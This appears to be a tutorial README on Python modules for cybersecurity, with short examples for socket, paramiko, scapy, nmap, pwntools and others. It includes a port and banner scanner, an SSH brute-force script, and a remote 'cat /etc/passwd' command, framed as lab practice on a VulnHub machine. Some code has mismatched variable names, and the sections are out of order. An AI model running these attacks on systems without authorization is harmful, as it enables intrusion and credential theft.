new_socket = socket.socket()
```

Then we will perform our operations using the methods of this object, these methods are:

* `socket.listen()`: Listens on the socket opened on the specified port number.
* `socket.accept()`: Receives requests coming to the socket opened on the specified port number.
* `socket.bind(address)`: Binds the socket to the specified IP address.
* `socket.close()`: Closes the socket.
* `socket.connect(address)`: Connects to a remote socket at the specified address.
* `socket.recv(bufsize)`: Retrieves data coming to the socket.
* `socket.sendall(bytes)`: Sends data to the socket.

### Listen to socket

We can listen to a specific port by opening a socket.

```
import socket
```

```
HOST = '127.0.0.1'                   
PORT = 2222                
with socket.socket() as s:  
    s.bind((HOST, PORT))  
    s.listen()  
    conn, addr = s.accept()  
    with conn:  
        print('Connected by ', addr)  
        while True:  
            data = conn.recv(1024)  
            if not data: break  
            conn.sendall(data)
```

This code will listen to the socket opened at 127.0.0.1:2222, and when it detects a connection, it will send back the incoming data in the same way. Then the program ends.

### Connecting to socket

By opening a socket, we can establish a connection to a specific IP address and port.

```
import socket
```

```
HOST = '127.0.0.1'      
PORT = 2222             
with socket.socket() as s:  
    s.connect((HOST, PORT))  
    s.sendall(b'Hello')  
    data = s.recv(1024)  
print('Received ', data)
```

This code will send data one by one to establish a connection with the socket operating at 127.0.0.1:2222. The data sent here is the 'hello' message. Then, it receives the incoming data and the program ends.



Let's save the code we use to listen to the socket in a file named *server.py*. Let's save the code we use to connect to the socket in a file named *client.py*. When we first run the server.py file and then the client.py file, the connection will be established.

### Port Scan

We could connect to IP and port addresses with the socket module. In this way, we can find open ports and banner information on a host. Banner information will give us information about which service is running on this port.

```
import socket
```

```
ip = "10.10.10.10"  
ports = []  
banners = []
```

```
for port in range(1,1000):  
    try:  
        s = socket.socket()  
        s.connect((str(ip), int(port)))  
        banner = s.recv(1024)  
        banners.append(str(banner))  
        ports.append(str(port))  
        s.close()  
        print(port)  
    except:  
        pass  
          
print(ports)  
print(banners)
```

If we run this code on the Typhoon machine, it will get us open ports and banner information.



### SSL

When we try to access secure sites that work with the HTTPS protocol, we need an SSL certificate. We can get help from the SSL module for this.

By default, http protocol works on port 80 and https protocol works on port 443.

```
import socket  
import ssl
```

```
hostname = 'www.python.org'  
context = ssl.create_default_context()
```

```
with socket.create_connection((hostname, 443)) as sock:  
    with context.wrap_socket(sock, server_hostname=hostname) as ssock:  
        print(ssock.version())
```

### End

What other things can we do in the field of cyber security with this module? I welcome comments...

## paramiko


### Introduction

Hello, in this article, we will get to know the *paramiko* module that allows us to establish SSH connections with Python.

### What is paramiko?

**SSH** (Secure Shell) is a cryptographic network protocol used for secure operation of network services over an unsecured network. With SSH, you can connect to and manage your network devices, Linux and Windows machines. It works on port 22 by default.

Paramiko is a module that allows us to easily make SSH connections with Python. In this way, we can write applications that manage remote servers with Python. For example; We can set up a botnet, run malware on a remote server, or write applications that scan for SSH vulnerabilities. Now let's see how to use this module.

### Installation

To install Paramiko, run the following code on the terminal screen.

```
pip install paramiko
```

Then we can open a python file and include the module in our project.

```
import paramiko
```

Now let's make an SSH connection with the paramiko module

### How to use Paramiko Module?

To establish an SSH connection with the Paramiko module;

```
import paramiko
```

```
IP = "ip address"  
USERNAME = "username"  
PASSWORD = "password"  
PORT = 22  
COMMAND = "command"
```

```
ssh = paramiko.SSHClient() # Create SSH object  
ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
```

```
ssh.connect(ip, username, password) # Establishing SSH connection  
stdin, stdout, stderr = ssh.exec_command(command) # Run command  
print(stdout.read())
```

```
ssh.close()
```

In this example, we created an SSH client with the pramaiko module. The application makes a connection to the specified IP and port address with the username and password information and runs the 'whoami' command. Then it prints the response to the screen and closes the SSH connection.



In this example, we connected via SSH by running machine [Typhoon](https://www.vulnhub.com/entry/typhoon-102,267/) in the virtual environment. Now let's see what more we can do with this module.

### SSH brute force attack

Since we can make an SSH connection with Paramiko, we can also perform a brute force attack. For this, we will create a username list and a password list. Then we will try to establish an SSH connection with the information in this list.

```
import paramiko
```

```
ssh = paramiko.SSHClient()  
ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())  
username_list = []  
password_list = []
```

```
for i in username_list:  
    for j in password_list:  
        try:  
            ssh.connect(ip,username=i, password=j)  
            print(i,j)  
            ssh.close()  
        except:  
            pass
```

In the code above, a username list and a password list are required for the attack, you can add them to the lists in the code. The target IP address must also be given to the ssh.connect() function. Then, when the code is run, the values in the username and password lists are tried one by one for the relevant IP address. In this process, make sure that the SSH service is turned on on the target server. Otherwise, the operation will fail.

### Pulling passwd file

If we establish an SSH connection, we can perform any operation we want with the shell we receive from the target server. For this we use the *ssh.exec\_command()* method.

```
import paramiko
```

```
ssh = paramiko.SSHClient()  
ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())  
ssh.connect(ip, username, password)  
stdin, stdout, stderr = ssh.exec_command("cat /etc/passwd")  
print(stdout.read().decode('ascii'))
```

With the code above, we read the *passwd* file of the target server and printed it on the screen.

### End

As a result, we made an SSH connection to remote servers with the paramiko module and ran commands on the servers. I welcome comments on what other applications can be made with Paramiko”¦

## scapy

### Introduction
Scapy is a powerful interactive packet manipulation library used for sending, sniffing, analyzing, and manipulating network packets. It allows you to perform most of the tasks done by traditional tools (ping, traceroute, nmap, tcpdump, etc.) with your own custom scripts.

### Installation
To install Scapy on your system, you can use the following command:
```
pip install scapy
```

### Basic Usage
In the example below, we create and send a simple ICMP (Ping) packet using Scapy and print the incoming response:

```python
from scapy.all import IP, ICMP, sr1

# Creating a packet by combining IP and ICMP layers
packet = IP(dst="8.8.8.8")/ICMP()

# Send the packet and wait for the first incoming response
response = sr1(packet, timeout=2)

if response:
    response.show()
else:
    print("No response received.")
```

## python-nmap

### Introduction
python-nmap allows you to control the popular port scanner and network discovery tool Nmap from within Python scripts. It is ideal for automating scan results and using them in reporting or other automation processes.

### Installation
To use this library, Nmap must be installed on your system. To install the library:
```
pip install python-nmap
```

### Basic Usage
We can use the following code to perform a quick port scan on a specific target and get the results:

```python
import nmap

# Creating an Nmap scanner object
nm = nmap.PortScanner()

# Scan target (ports 22 to 80)
nm.scan('127.0.0.1', '22-80')

# Print results to screen
for host in nm.all_hosts():
    print(f"Host: {host} ({nm[host].hostname()})")
    print(f"State: {nm[host].state()}")
    for proto in nm[host].all_protocols():
        print(f"Protocol: {proto}")
        ports = nm[host][proto].keys()
        for port in ports:
            print(f"Port: {port}\tState: {nm[host][proto][port]['state']}")
```

## beautifulsoup4

### Introduction
BeautifulSoup is a popular web scraping library used to parse HTML and XML documents. It allows you to easily extract specific tags, classes, or IDs from complex HTML structures.

### Installation
To install BeautifulSoup4:
```
pip install beautifulsoup4
```

### Basic Usage
In the following example, we pull a web page with requests and list all links (a tags) in it with BeautifulSoup:

```python
import requests
from bs4 import BeautifulSoup

url = "https://example.com"
response = requests.get(url)

# Parsing HTML content
soup = BeautifulSoup(response.text, 'html.parser')

# Finding all 'a' (link) tags
for link in soup.find_all('a'):
    print(link.get('href'))
```

## playwright

### Introduction
Playwright is a powerful library developed for browser automation and testing in modern web applications. It allows you to control Chromium, Firefox, and WebKit browsers in headless or normal mode.

### Installation
To install Playwright and download the necessary browsers:
```
pip install playwright
playwright install
```

### Basic Usage
The following code opens a browser in the background using Playwright and saves a screenshot of the specified web page:

```python
from playwright.sync_api import sync_playwright

with sync_playwright() as p:
    # Launch browser (in headless mode)
    browser = p.chromium.launch(headless=True)
    page = browser.new_page()
    
    # Go to target page
    page.goto("https://example.com")
    
    # Take screenshot
    page.screenshot(path="screenshot.png")
    print("Screenshot saved as 'screenshot.png'.")
    
    browser.close()
```

## hashlib

### Introduction
hashlib is Python's built-in module containing cryptographic hash functions. It supports algorithms such as MD5, SHA-1, SHA-256 for verifying data integrity, securely storing passwords, or writing hash cracking algorithms.

### Installation
Since it is a built-in module, no additional installation is required. You can use it directly by writing `import hashlib`.

### Basic Usage
You can use the following structure to calculate the SHA-256 hash value of a text:

```python
import hashlib

data = "secure_password"

# Creating a SHA-256 hash object and encoding the data
hash_object = hashlib.sha256(data.encode())

# Getting the hash value in hexadecimal format
hex_dig = hash_object.hexdigest()

print("SHA-256 Hash:", hex_dig)
```

## cryptography

### Introduction
cryptography is a comprehensive library containing modern symmetric (like AES) and asymmetric (like RSA) encryption methods. It is the leading standard library for performing secure data transmission and encryption operations.

### Installation
To install the library:
```
pip install cryptography
```

### Basic Usage
In the example below, we encrypt data using Fernet (symmetric encryption) and then decrypt it:

```python
from cryptography.fernet import Fernet

# Generating encryption key
key = Fernet.generate_key()
cipher_suite = Fernet(key)

# Data to be encrypted
message = b"Secret data is here."

# Encryption
cipher_text = cipher_suite.encrypt(message)
print("Encrypted data:", cipher_text)

# Decryption
plain_text = cipher_suite.decrypt(cipher_text)
print("Original data:", plain_text.decode())
```

## os and sys

### Introduction
os and sys are Python's built-in modules that interact with the operating system and system parameters. They are used for file operations, environmental variables, command-line arguments, and managing the runtime environment.

### Installation
Since they are built-in modules, they do not require installation.

### Basic Usage
A simple script showing how to accept parameters from the command line and learn the current working directory:

```python
import os
import sys

# Printing current working directory
current_dir = os.getcwd()
print("Working directory:", current_dir)

# Checking command line arguments
if len(sys.argv) > 1:
    print("Arguments provided:", sys.argv[1:])
else:
    print("No arguments provided.")
```

## subprocess

### Introduction
The subprocess module allows you to launch new processes, run local commands belonging to the operating system, and manage their input/output/error streams from within Python scripts.

### Installation
Since it is a built-in module, no installation is required.

### Basic Usage
In the example below, we run the "ping" command on the system, capture its output, and print it to the screen:

```python
import subprocess

# Run system command and capture output
# Ping parameter is -n for Windows, -c for Linux.
result = subprocess.run(["ping", "-n", "1", "8.8.8.8"], capture_output=True, text=True)

# Print command output to screen
print("Exit Code:", result.returncode)
print("Output:\n", result.stdout)
```

## ctypes

### Introduction
ctypes is a foreign function library for Python. It allows loading dynamic libraries written directly in C (DLL files on Windows, .so files on Linux) into memory and using C data types. It is used to communicate directly with system APIs.

### Installation
Since it is a built-in module, no installation is required.

### Basic Usage
An example showing a simple information message box (MessageBox) using ctypes on Windows operating system:

```python
import ctypes

# Calling Windows API (User32.dll)
# Note: This code runs on Windows systems.
try:
    user32 = ctypes.windll.user32
    user32.MessageBoxW(0, "Windows API call made with ctypes!", "Info", 1)
except AttributeError:
    print("This code runs only on Windows operating systems.")
```

## pwntools

### Introduction
Pwntools is a CTF framework developed to facilitate exploit writing, network connections (sockets), analysis of ELF files, and local/remote process manipulation, which has become standard for CTF (Capture The Flag) competitors and exploit developers.

### Installation
To install Pwntools:
```
pip install pwntools
```

### Basic Usage
Using pwntools to interact with a local process or a remote port, sending and receiving data:

```python
from pwn import *

# Launching a local process (e.g. /bin/sh)
# r = process('/bin/sh')

# Or connecting to a remote server
# r = remote('example.com', 1337)

# Simple hex/string conversion and packaging example
payload = p32(0xdeadbeef) # 32-bit little endian packaging
print("Packed payload:", payload)

# Detecting overflow size with cyclic structure
print("Cyclic pattern (16):", cyclic(16))
```


Python is one of the most preferred languages in the cyber security world (both on the offensive, i.e. attack, and defensive, i.e. defense sides). There are many modules and libraries that make a hacker's or cyber security specialist's job easier by offering ready-made functions when using Python.

We can examine these modules by categorizing them according to their intended use. In the interactive diagram below, you can see the categories and the modules they contain. You can click on any module to go directly to its detailed explanation:

## Module Map

```mermaid
flowchart TD
    Start[Python Cyber Security Ecosystem] --> Cat1[1. Network & Packet]
    Start --> Cat2[2. Web Pentesting]
    Start --> Cat3[3. Cryptography & Password]
    Start --> Cat4[4. System & OS]
    Start --> Cat5[5. Exploit Development]

    Cat1 --> M1_1[scapy]
    Cat1 --> M1_2[socket]
    Cat1 --> M1_3[python-nmap]

    Cat2 --> M2_1[requests]
    Cat2 --> M2_2[selenium]
    Cat2 --> M2_3[beautifulsoup4]
    Cat2 --> M2_4[playwright]

    Cat3 --> M3_1[hashlib]
    Cat3 --> M3_2[cryptography]
    Cat3 --> M3_3[paramiko]

    Cat4 --> M4_1[os and sys]
    Cat4 --> M4_2[subprocess]
    Cat4 --> M4_3[ctypes]

    Cat5 --> M5_1[pwntools]

    click M1_1 href "#scapy" "Go to Scapy"
    click M1_2 href "#socket" "Go to Socket"
    click M1_3 href "#python-nmap" "Go to Python-Nmap"
    click M2_1 href "#requests" "Go to Requests"
    click M2_2 href "#selenium" "Go to Selenium"
    click M2_3 href "#beautifulsoup4" "Go to BeautifulSoup4"
    click M2_4 href "#playwright" "Go to Playwright"
    click M3_1 href "#hashlib" "Go to Hashlib"
    click M3_2 href "#cryptography" "Go to Cryptography"
    click M3_3 href "#paramiko" "Go to Paramiko"
    click M4_1 href "#os-and-sys" "Go to OS and Sys"
    click M4_2 href "#subprocess" "Go to Subprocess"
    click M4_3 href "#ctypes" "Go to Ctypes"
    click M5_1 href "#pwntools" "Go to Pwntools"
```
---

> ⚠️ **Important Note:** The use of these modules in cyber security testing (Penetration Testing) and educational laboratory environments is completely legal. However, scanning or attacking systems for which you do not have authorization using these tools constitutes a legal offense.

